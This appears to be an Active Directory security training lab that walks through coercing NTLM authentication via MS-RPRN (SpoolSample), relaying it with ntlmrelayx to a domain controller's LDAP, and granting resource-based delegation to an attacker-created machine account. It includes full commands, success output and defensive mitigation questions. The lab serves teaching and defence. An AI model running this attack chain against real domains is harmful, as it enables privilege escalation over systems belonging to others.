 # Exercise 3 - Coerced Authentication and NTLM Relay

## Preparations

Install the Webclient service to enable WebDav support on ADSEC-01. 

```
Install-WindowsFeature WebDAV-Redirector
```

Reboot the server, log back in and set the startup type for the new services to automatic.

```
Get-Service mrxdav,webclient | Set-Service -StartupType Automatic
```

Start manually and check to make sure they are running.

```
start-service mrxdav,webclient
get-service mrxdav,webclient
```

These are services that are usually not installed on Servers but they are by default installed on clients. If the Webclient service is installed and running, it allows for a different attack avenue we'd like to highlight below, which is a cross-protocol NTLM relay.

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- Impacket: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
- SpoolSample: [https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)
- Powermad: [https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1)

## Exercise

In this exercise, we'll use a design flaw in the MS-RPRN protocol to coerce authentication of a computer account and then forward that authentication to the domain controller to manipulate the victims computer object in the directory. A similar attack can be invoked by abusing the MS-EFSRPC protocol, better known as the [PetitPotam attack](https://github.com/topotam/PetitPotam).

The attack consists of three steps:

1) Create a new computer account
2) Set up a ntlm relay server
3) Trigger authentication

### Create a new computer account

The reason why we need to create a computer account is the fact that a computer account has an SPN by default and we need that lateron when we're talking about Kerberos delegation. Just accept this as given for now, we'll go into more detail soon ;-)

```
cd C:\attacker-tools\
cat -raw .\Powermad.ps1 | iex
New-MachineAccount -MachineAccount evilpc -Password (ConvertTo-SecureString -String "EvilPassword1" -AsPlainText -Force)
```

### Set up a ntlm relay server

Set up your relay server with ntlmrelayx like this.

```
ntlmrelayx.py --no-smb-server --delegate-access --escalate-user evilpc$ -t ldap://adsec-dc.contoso.com
```

 - **--no-smb-server** prevent ntlmrelayx from starting it's own smb service on port 445 which wouldn't be possible anyway since the Windows smb service is using that port. 
 - **--delegate-access** this tells ntlmrelayx that we want to modify the permissions for RBCD (ressource-based constrained kerberos delegation) on the victims computer account.
 - **--escalate-user evilpc$** we want to give those delegation permissions to the computer account we created earlier.
 - **-t ldap://adsec-dc.contoso.com** the target of the NTLM relay. The terminology can be confusing but from the relaying tools point of view, the original victim (will be ADSEC-01) is the source and the domain controllers LDAP service is the target. In a nutshell, this switch is about where you want to use those stolen credentials.

### Trigger authentication

Finally, trigger an authentication from ADSEC-01 using the SpoolSample.exe from attacker tools. Execute the command below in a different shell, while keeping ntlmrelayx running.

```
 .\SpoolSample.exe adsec-01 adsec-00@80/foobar
```

If the attack worked, you should see something like this in the ntlmrelayx-console. 

```
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldap://adsec-dc.contoso.com as CONTOSO\adsec-01$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] HTTPD: Received connection from 10.200.200.101, attacking target ldap://adsec-dc.contoso.com
[*] Delegation rights modified succesfully!
[*] evilpc$ can now impersonate users on ADSEC-01$ via S4U2Proxy
```

Verify by checking the corresponding attribute on the computer object with PowerView.

```
cat -raw ".\PowerView.ps1" | iex
Get-DomainComputer adsec-01 | select msds-allowedtoactonbehalfofotheridentity
```

You should see that the attribute msds-allowedtoactonbehalfofotheridentity is now set and contains just a long list of digits. The reason is that this attribute does not contain just a simple account name but an ACL (like on a file) in the Microsoft SDDL format, which is stored in its binary representation here. Making this readable will be one of your challenges below.

You might wonder what we are going to do with those fancy delegation permissions we just acquired. We'll get to that in exercise 6 but first we have to learn more about Kerberos :-)

## Questions

- What is the best way to prevent normal users from creating computer accounts? Document the necessary configuration steps.
- Find the Powershell commands necessary to make this attribute readable and document them. You'll only need Powerview and what Powershell offers you natively. Hint: have a look at the blog posts here [https://posts.specterops.io](https://posts.specterops.io)
- Read [this guidance from the Carnegie Mellon CERT](https://www.kb.cert.org/vuls/id/405600) on how to mitigate PetitPotam. The article describes the use of an RPC filter to block the MS-EFSRPC procotol and therefore preventing coerced authentication. Adapt the RPC filter from the article to block MS-RPRN instead and apply it to ADSEC-01. Test the attack again, and see if it still works.
    - Hint: you'll need the UUID of the MS-RPRN protocol.